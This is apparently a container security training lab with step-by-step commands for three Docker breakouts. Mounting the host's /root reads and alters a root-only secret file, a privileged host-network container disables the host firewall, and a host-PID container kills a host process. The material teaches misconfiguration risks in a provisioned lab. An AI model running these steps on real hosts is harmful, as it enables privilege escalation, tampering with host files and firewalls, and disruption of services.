 # **Container Breakout - Multiple Attacks**

---

> #### Gaining access and tampering Host resources from a container

### **Lab Image : Containers**

## *Volume Mounts*

* Step 1: Validate that you are the `root` user on the provisioned server

```commandline
whoami
```

* Step 2: Validate that there's a secret file in the root directory

```commandline
cat /root/secret.txt
```

* Step 3: Switch to a non-root user

```commandline
sudo su we45
```
* Step 4: Validate that you are now `we45` user on the provisioned server

```commandline
whoami
```

* Step 5: Check if the non-root user(`we45`) has access to `docker`

```commandline
docker images
```

```commandline
docker ps
```

* Step 6: Try to read the contents of the `secret` file created by the `root` user

```commandline
cat /root/secret.txt
```

* Step 7: As a non-root user(`we45`), launch a container and expose the root-filesystem

```commandline
docker run -ti --rm -v /root:/hostFS/ alpine sh
```

* Step 8: On the container, try to read.

```commandline
cat /hostFS/secret.txt
```

* Step 9: On the container, try and edit the secret file.

```commandline
echo "Tampered data!!" >> /hostFS/secret.txt
```

* Step 10: Read the edited secret file from the container

```commandline
cat /hostFS/secret.txt
```

* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Switch to `root` user

```commandline
exit
```

* Step 13: Now read the secret file as a `root` user

```commandline
cat /root/secret.txt
```


### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## *Host Network*

---

* Step 1: Check `ufw` status

```commandline
ufw status
```

* Step 2: Enable `ufw`

```commandline
ufw enable
```
* Step 3: Check `ufw` status now

```commandline
ufw status
```

* Step 4: Launch a container binding the host network to the docker network

```commandline
docker run -d --name vul_flask -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
```

* Step 5: Exec into the container environment

```commandline
docker exec -ti vul_flask /bin/bash
```

* Step 6: Check `ufw` is it installed or not inside the container

```commandline
ufw status
```

* Step 7: Now install `ufw` inside the container

```commandline
apt update && apt install -y ufw
```

* Step 8: Check the status of the firewall inside the container

```commandline
ufw status
```

* Step 9: Disable the host machine firewall from a container

```commandline
ufw disable
```
* Step 10: Check the `ufw` status

```commandline
ufw status
```
* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Now check `ufw` status in the server

```commandline
ufw status
```

### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## *PID Boundary*

---

* Step 1: Navigate to the `Container Breakout` directory on the provisioned server

```commandline
cd /root/container-training/Container/container-breakout/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 3: Create a "Super Important Process" that is to be tampered with

```commandline
command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
```

```commandline
printf "$command" > super_important_process.sh && chmod +x super_important_process.sh
```

* Step 4: Run the "Super Important Process" that was just created and fetch the `Process-ID`

```commandline
./super_important_process.sh
```

* Step 5: With `tmux`, switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 6: Launch a container and mount the host processes on the container

```commandline
docker run -ti --pid=host --privileged alpine sh
```

* Step 7: Inside the container, try to terminate the "Super Important Process" 

```commandline
kill <Super important process running PID>
```

* Step 8: Exit from the container

```commanline
exit
```

* Step 9: Exit from the `tmux`

```commanline
exit
```

```commanline
exit
```


#### *Teardown*:

* stop all the containers

```commandline
clean-docker
```

### Reading Material/References:
